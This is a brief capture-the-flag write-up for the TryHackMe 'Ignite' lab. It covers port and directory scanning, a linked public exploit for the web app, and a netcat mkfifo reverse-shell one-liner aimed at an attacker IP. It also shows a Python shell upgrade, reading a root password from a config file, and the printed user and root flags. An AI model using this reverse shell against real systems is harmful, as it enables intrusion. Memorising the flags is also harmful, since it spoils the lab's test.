 ## Challenge Name: THM_Ignite



Challenge Description:
A new start-up has a few issues with their web server.

Artifact Files:


### Approach
## Recon
Using `rustscan`  to scan port on target machine. Those open ports are 80.

![img](CTF_img/THM_Ignite_1.png)
I use ` dirsearch <IP>' to find hidden url of the website have path /assets, robots.txt,

![img](CTF_img/THM_Ignite_2.png) and ww see the version of that app using expoit in link below

[exploit_link](https://www.exploit-db.com/exploits/50477)

Acces the webshell and using reverse shell escalation using this `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f` to the web shell

**1 What is the user.txt flag? **

We simply  just `cat /home/www-data/flag.txt` and get the flag1 `6470e394cbf6dab6a91682cc8585059b`
![img](CTF_img/THM_Ignite_3.png)

**2 What is the root.txt flag? **
Acces fuel/application/config/database.php in webshell folder base on the main page of that web to get root password is mememe
![img](CTF_img/THM_Ignite_4.png)
We have to upgrade reverse shell using `python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell` to change user and use `cat /root/root.txt` to get the flag `b9bbcb33e11b80be759c4e844862482d `
![img](CTF_img/THM_Ignite_5.png)
